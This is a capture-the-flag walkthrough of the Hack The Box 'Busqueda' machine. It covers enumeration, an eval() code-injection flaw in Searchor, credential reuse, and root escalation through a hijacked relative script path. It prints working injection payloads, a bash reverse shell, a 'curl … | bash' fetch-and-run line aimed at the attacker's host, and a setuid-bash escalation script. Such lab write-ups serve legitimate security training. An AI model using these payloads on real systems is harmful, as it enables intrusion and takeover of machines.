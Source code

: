  ![image](https://user-images.githubusercontent.com/87700008/230741085-ae68684e-fb9c-4a26-a17f-75349dc030eb.png)

https://app.hackthebox.com/machines/537

## Enumeration:

I began by performing a port scan and discovered that ports 22 and 80 were open:
```bash
sudo rustscan -a 10.10.11.208 -- -sC -sV -vv -oN busqueda_nmap
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan results showed that SSH was running on port 22, and the Apache HTTP server was running on port 80. I also discovered a domain named "**searcher.htb**" running on port 80 and added it to the **/etc/hosts** file.

Next, I performed vhost and sub-directory enumeration on the domain but found nothing of interest. Upon further browsing, I discovered that the website was a search tool that provided search results from various search engines on the internet.

![image](https://user-images.githubusercontent.com/87700008/230746368-c6b50271-af99-4b23-9e81-10eed4016f30.png)

To test the functionality of the search feature, I used Burp and observed the response changing when I checked for SQL injection in the query parameter

![image](https://user-images.githubusercontent.com/87700008/232015628-820562f5-dd34-4df5-b3d6-2de04aec009d.png)

![image](https://user-images.githubusercontent.com/87700008/232015895-16b1faa9-075f-4ffd-82d0-c1179bde2e8b.png)

I then used SQLMap to further test the search function, but unfortunately, it did not yield any useful results. 😕

![e79d4ab095244c76be0c42e22382f1b8](https://user-images.githubusercontent.com/87700008/232016168-bd516722-122c-49aa-8391-631c841d3932.png)

Upon further investigation of the website, I discovered the Searchor version and source code on Github:

![image](https://user-images.githubusercontent.com/87700008/232016810-09a178cd-a220-4923-abe2-87e27e67fd03.png)

My research led me to discover that Searchor is vulnerable to [Arbitrary code execution](https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303) prior to version 2.4.2.

In the Snyk blog, I found the pull request [page](https://github.com/ArjunSharda/Searchor/pull/130) where the vulnerable parameter was mentioned in the code:

![image](https://user-images.githubusercontent.com/87700008/232018873-ed9340f2-6cbf-4868-9855-1f4c45d62747.png)

It's clear from the comments that eval() is vulnerable to code execution:

![image](https://user-images.githubusercontent.com/87700008/232019522-22ddcb28-83cd-4d16-9ab5-32b3504c82a4.png)

I found some hints about using eval() from the HTB official discussion and came across a [blog](https://realpython.com/python-eval-function/) that provided some security controls.

```
https://forum.hackthebox.com/t/official-busqueda-discussion/277515/160

Building payloads is an artisan’s work, start simple, just close your quote, close the eval and comment everything out, it will end up as ')#, 
if you get a response, it is working, and you can do little changes to try different values, like passing one more value, as this ',1)#, 
if you are still getting a response and not a blank value, then you can freely change this “one” by an exec() call and do everything you want from it 
```
From the blog, I learned that we can use something like the following code to execute our payloads:

![image](https://user-images.githubusercontent.com/87700008/232022263-65166537-0f67-41f3-addb-ee4a64a3b6fd.png)
```bash
eval(complie("code to execute"), "<String>", "exec") 
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Initial Access:

After multiple attempts and failures, I finally discovered a payload that worked in the URL-encoded format for command execution:

```bash
'%2beval(compile("import+os\nos.system('id')+",'<String>','exec'))%2b'
```

![image](https://user-images.githubusercontent.com/87700008/232024663-9c834a9b-990e-431e-adda-90f928c4022f.png)

For the reverse shell, I tried multiple payloads, but none of them worked perfectly. Then, I followed another process where I hosted a text file containing a bash reverse shell:

```bash
bash -i >& /dev/tcp/10.10.X.X/1331 0>&1
```

After the server downloaded this text file, it executed the shell script from the server end using bash.

I used this final payload, which I referenced from another user's [blog](https://blog.csdn.net/qq_58869808/article/details/130050438) :

```bash
http%3a//127.0.0.1/debug'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl 10.10.14.41/1337.txt | bash ")','a','single'))%2b'
```

And I successfully gained a reverse shell (pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/232027067-ca80fa0b-e7a1-4474-9f2e-59c168cbc00b.png)

In the '/var/www/app/.git' folder, I found a config file with Cody's credentials, along with the Gitea domain running on searchor.htb:

![image](https://user-images.githubusercontent.com/87700008/232027831-ca0b94df-ec46-423d-98fd-0ab06b51b520.png)

I added the domain 'gitea.searcher.htb' to the host file and loaded the website, where I found a login page. I was able to log in using Cody's credentials.

![image](https://user-images.githubusercontent.com/87700008/232131761-d01b7b76-b5af-4552-a7c6-584203984425.png)

In Gitea, I only found 'app.py' files in all of the commits, but I didn't find anything helpful.

I tried the SSH credentials with Cody's username but didn't succeed. After further enumeration, I tried the same credential with 'svc' because it's the same user with whom we have the remote shell.

Finally, I logged in via SSH using the 'svc' account, which gave me the user flag.(pwn3d!🙂)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privelege Escalation:

To start enumerating for root access, I first checked the sudo permissions and discovered that I could run the **system-checkup.py** script with root privileges using the following command:
```bash
/usr/bin/python3 /opt/scripts/system-checkup.py *
```

After executing the command, I received the following output that displayed the docker processes and allowed me to inspect them:

![image](https://user-images.githubusercontent.com/87700008/232138956-c036b82f-519f-41bb-bae9-6bc632468042.png)

I found two running docker processes, namely **gitea** and **mysql_db**.

![image](https://user-images.githubusercontent.com/87700008/232139320-7e50cf9f-4bf7-47e7-b42d-d955df02abfb.png)

I inspected the content of **mysql_db** and obtained root credentials related to Gitea by executing the following command:
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

![image](https://user-images.githubusercontent.com/87700008/232139819-2ea4ab0d-7f37-4b0a-bfaf-27239b904cfa.png)

Since I had already logged in to Gitea using Cody's credentials, I knew that there was an **administrator** user account. So, I logged in to his account with the credentials obtained from Gitea:

![image](https://user-images.githubusercontent.com/87700008/232140412-9bf68ab8-b654-4e69-b5f1-cda86f52c032.png)

Upon logging in, I found the **system-checkup.py** file in his repository:

![image](https://user-images.githubusercontent.com/87700008/232140739-310c7e52-d8ef-4987-a719-64cb2408df33.png)

By checking the script, I observed that if we used the **full-checkup** argument, it would run the script **/full-checkup.sh**.

![image](https://user-images.githubusercontent.com/87700008/232141411-f86158dd-caa1-4f47-a0cf-8ef55bf61b49.png)

I attempted to run the script with the **full-checkup** argument, but it did not work, possibly due to a missing script.

As I discovered in the **system-checkup.py** script, there was no absolute path to run **full-checkup.sh**. Therefore, I created my own malicious script and added the following command to it:
```bash
#!/bin/bash
chmod +s /bin/bash
```

![image](https://user-images.githubusercontent.com/87700008/232143172-ccc54e75-c7fb-4148-866e-0a28168e7931.png)

Next, I executed the **system-checkup** script again, and it granted me root bash access. With this, I was able to obtain the root flag (pwn3d!🙂).

![image](https://user-images.githubusercontent.com/87700008/232143461-4201f7f2-a19c-4832-85ea-0988b7bfa426.png)

